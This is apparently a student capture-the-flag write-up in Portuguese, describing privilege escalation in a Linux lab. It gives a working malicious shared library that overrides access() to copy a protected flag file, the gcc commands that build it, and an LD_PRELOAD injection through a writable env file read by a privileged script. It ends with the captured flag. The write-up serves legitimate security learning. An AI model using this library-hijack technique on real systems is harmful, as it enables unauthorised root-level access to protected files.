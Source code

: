 # CTF #4 - Linux Environment 


## Identificação de vulnerabilidades

Primeiramente, começamos por recolher o máximo de informação possível sobre o sistema, de forma a tentar encontrar alguma vulnerabilidade.

O ficheiro **admin_note.txt** deu-nos uma dica que existe uma vulnerabilidade na tmp folder que nos permitiria chegar à flag. Além disso, depois de ler o ficheiro **main.c**, através do comando **cat**, descobrimos que, possivelmente, existe um ficheiro chamado ***flag.txt*** na folder flags.

``` 
cat main.c
```

Por fim, chegamos à conclusão que o script que corre regularmente no servidor tem mais privilégios que nós, por isso deduzimos que o script estaria relacionado com o ataque também.

Finalmente, tentamos aceder à flags folder, mas não tinhamos permissão.
Com estas informações, começamos a construir um plano com o propósito de, de alguma forma, conseguir root privileges e ter acesso ao ficheiro ***flags.txt***.


## Ataque


O ataque consiste em dar override à função **access()** da standard C library, presente no **main.c**, e fazer uma system call através da função **system()** onde usamos o comando **cat** para copiar o que está no ficheiro ***flag.txt*** para um ficheiro criado por nós.

Primeiro, começamos por criar um ficheiro `lib.c`, que terá o código da nossa malicious library:

```
cat > lib.c

#include <stdio.h>
#include <stdlib.h>

int access(const char *pathname, int mode) {
    system("/usr/bin/cat /flags/flag.txt > /tmp/text.txt");
       return 0;
}
```

O ficheiro `/tmp/text.txt` é um ficheiro temporário criado da seguinte forma :

```
touch text.txt
```

Este ficheiro irá conter o que estiver escrito no ficheiro `/flags/flag.txt`, que, em princípio, é a flag.

Depois disso, compilamos o `lib.c` de forma a torná-lo numa library com os seguintes comandos:

```
gcc -fPIC -g -c lib.c
```

E:

```
gcc -shared -o liblib.so.1.0.1 lib.o -lc
```

Por fim, temos que modificar o ficheiro `env` de forma a adicionar a library `liblib.so.1.0.1` à environment variable `LD_PRELOAD` desta forma:

``` 
cat > env
LD_PRELOAD=/tmp/liblib.so.1.0.1
```

Assim, a nossa função **access()** maliciosa vai dar **override** à função **access()** da standard C library.

Agora, basta esperar que o my_script.sh rode mais uma vez e a flag estará dentro do text.txt.

No nosso caso era `flag{90069b3c95cdd8df71e65ce0fd7ce815}`
